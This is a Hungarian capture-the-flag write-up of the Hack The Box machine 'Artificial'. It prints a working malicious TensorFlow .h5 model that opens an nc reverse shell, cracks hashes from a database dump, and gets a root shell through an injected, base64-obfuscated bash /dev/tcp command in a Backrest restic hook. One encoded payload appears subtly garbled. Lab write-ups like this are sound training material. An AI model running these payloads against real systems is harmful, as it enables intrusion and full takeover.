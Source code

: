 ```yaml
---
layout: default
title: Artificial [HU]
---
```


**Platform:** Linux\
**IP:** 10.10.11.74\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

---

## Recon

```bash
nmap -sC -sV -T4 10.10.11.74
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts szerkesztés:**

```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enum

A weboldal login + regisztrációs lehetőséget ad. Sikeres regisztráció után .h5 fájlokat lehet feltölteni.

### Malicious TensorFlow modell generálása (tenserflow-cpu==2.13.1 a követelmény)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker parancs:**

```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

Feltöltés után:

```bash
nc -lvnp 4444
```

---

## SQLite Database Enum

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Megvan: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Hash crack (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Talált jelszavak:

```
mattp005
marwinn
```

---

## PrivEsc (Backup leak)

A `redteam-launcher` segíségével átnézve a backupokat(https://github.com/No4Sec/redteam-launcher):

```
/var/backups/backrest_backup.tar.gz
```

**Letöltés HTTP szerveren keresztül:**

```bash
cd /var/backups
python3 -m http.server
```

**Kalin:**

```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Kitömörítés:**

```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**

```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode után:

```bash
cat hash.txt | base64 -d
```

John bcrypt:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## 🚪 Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Feltérépezés után megtalálható a Backrest login felület.

A korábban dumpolt jelszóval belépés után új repo-t adunk hozzá.

**Env variable exploit:**

```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Fontos:** a `Hook` mezőbe ezt állítsuk be:

```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Miért base64?** A mező nem kezeli rendesen az értelemmel rendelkezo parancsokat, ezért jobb base64-ben beküldeni, majd `-d | bash` dekódolja.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Majd submit, és shell vissza root joggal:

```bash
nc -lvnp 4444
```

```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---


## Összegzés

Az Artificial egy könnyű, mégis kreatív kihívás, ami több különböző vektort is összefűz:
- Gépi tanulási modellből indított reverse shell
- SQLite adatbázis feltárása és hash törés
- Backup fájlból kiszedett bcrypt jelszó
- RESTIC környezeti változón keresztüli RCE, ami végül root shellhez vezet

Külön érdekesség volt a `.h5` fájl alapú Tensorflow modellben elrejtett shellkód, valamint a RESTIC hook exploit, ami egy igazi hidden gem.

**Tanulság:**
- Soha ne bízz meg a feltöltött fájlokban
- Ne futtass backup szolgáltatást rootként ha nem muszáj
- És mindig nézd át a `.tar.gz` fájlokat – lehet benne meglepetés :)

---

## Root megvan. On to the next one. //

